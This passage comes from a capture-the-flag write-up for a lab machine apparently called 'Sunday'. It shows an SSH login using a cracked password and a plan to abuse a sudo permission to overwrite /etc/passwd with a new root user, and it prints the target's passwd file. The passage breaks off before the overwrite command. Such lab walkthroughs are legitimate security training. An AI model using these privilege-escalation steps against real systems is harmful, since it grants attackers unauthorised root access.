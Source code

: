 And this has some wins:

![hash1](./sunday/hash1.png)

Now connect with this new account:

```bash
ssh -p 22022 -oKexAlgorithms=diffie-hellman-group1-sha1 sammy@10.10.10.76 # cooldude!
```

After connecting, it seems like `sammy` has another interesting sudo permission:

![user4](./sunday/user4.png)

It should be possible to use this power to overwrite `/etc/passwd` with a new root user. First download the `/etc/passwd` from the target and save it in `passwd` on Kali:

```
root:x:0:0:Super-User:/root:/usr/bin/bash
daemon:x:1:1::/:
bin:x:2:2::/usr/bin:
sys:x:3:3::/:
adm:x:4:4:Admin:/var/adm:
lp:x:71:8:Line Printer Admin:/usr/spool/lp:
uucp:x:5:5:uucp Admin:/usr/lib/uucp:
nuucp:x:9:9:uucp Admin:/var/spool/uucppublic:/usr/lib/uucp/uucico
dladm:x:15:3:Datalink Admin:/:
smmsp:x:25:25:SendMail Message Submission Program:/:
listen:x:37:4:Network Admin:/usr/net/nls:
gdm:x:50:50:GDM Reserved UID:/:
zfssnap:x:51:12:ZFS Automatic Snapshots Reserved UID:/:/usr/bin/pfsh
xvm:x:60:60:xVM User:/:
mysql:x:70:70:MySQL Reserved UID:/:
openldap:x:75:75:OpenLDAP User:/:
webservd:x:80:80:WebServer Reserved UID:/:
postgres:x:90:90:PostgreSQL Reserved UID:/:/usr/bin/pfksh
svctag:x:95:12:Service Tag UID:/:
nobody:x:60001:60001:NFS Anonymous Access User:/:
noaccess:x:60002:60002:No Access User:/:
nobody4:x:65534:65534:SunOS 4.x NFS Anonymous Access User:/:
sammy:x:101:10:sammy:/export/home/sammy:/bin/bash
sunny:x:65535:1:sunny:/export/home/sunny:/bin/bash
```

Then perform the switch as follows:
